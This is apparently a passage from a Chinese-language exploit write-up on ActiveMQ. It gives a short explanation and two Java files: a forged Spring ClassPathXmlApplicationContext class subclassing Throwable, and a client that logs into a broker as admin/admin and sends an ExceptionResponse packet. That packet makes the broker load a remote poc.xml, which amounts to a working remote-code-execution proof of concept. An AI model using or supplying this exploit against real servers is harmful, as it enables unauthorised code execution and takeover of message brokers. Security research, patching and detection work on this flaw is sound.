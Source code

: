 异常打印的消息来自于`exception`成员，所以`ClassPathXmlApplicationContext`需要继承`Throwable`

![image-20231221211330866](./../.gitbook/assets/image-20231221211330866.png)

```java
package org.springframework.context.support;

public class ClassPathXmlApplicationContext extends Throwable{
    private String message;

    public ClassPathXmlApplicationContext(String message) {
        this.message = message;
    }

    @Override
    public String getMessage() {
        return message;
    }
}
```

```java
package org.example;

import org.apache.activemq.ActiveMQConnectionFactory;
import org.apache.activemq.ActiveMQSession;
import org.apache.activemq.command.ExceptionResponse;
import org.springframework.context.support.ClassPathXmlApplicationContext;

import javax.jms.*;

public class Main {
    public static void main(String[] args) throws Exception {
        ConnectionFactory connectionFactory = new
            ActiveMQConnectionFactory("tcp://127.0.0.1:61616");

        Connection connection = connectionFactory.createConnection("admin", "admin");
        connection.start();
        ActiveMQSession session = (ActiveMQSession) connection.createSession(Boolean.TRUE, Session.AUTO_ACKNOWLEDGE);
        ExceptionResponse exceptionResponse = new ExceptionResponse();

        exceptionResponse.setException(new ClassPathXmlApplicationContext("http://127.0.0.1:8081/poc.xml"));
        session.syncSendPacket(exceptionResponse);
        connection.close();
    }
}
```
